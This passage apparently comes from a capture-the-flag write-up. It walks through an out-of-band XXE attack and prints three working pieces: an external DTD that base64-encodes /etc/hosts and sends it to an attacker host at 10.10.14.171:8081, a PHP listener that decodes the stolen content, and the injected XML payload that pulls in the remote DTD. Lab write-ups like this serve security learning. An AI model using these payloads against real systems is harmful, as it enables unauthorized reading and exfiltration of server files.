 If there is not a firewall blocking outbound traffic, we should be able to exfiltrate the output via HTTP. This is called an out-of-band (OOB) XXE and the steps are directly copied from my CPTS notes xd.

Saved this file as ***dusk.dtd***.

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.171:8081/?content=%file;'>">
```

Served this other as ***index.php***. It will automatically decode the base64-encoded chunk to stdout.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Started a web server on port TCP/8081.

<img src="/assets/img/pollution/image 14.png" alt="image 14.png" style="width:800px;">

Injected the following payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE username [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.171:8081/dusk.dtd">
  %remote;
  %oob;
]>
<root><method>POST</method><uri>/auth/register</uri><username>&content;</usermame><password></password></root>
```
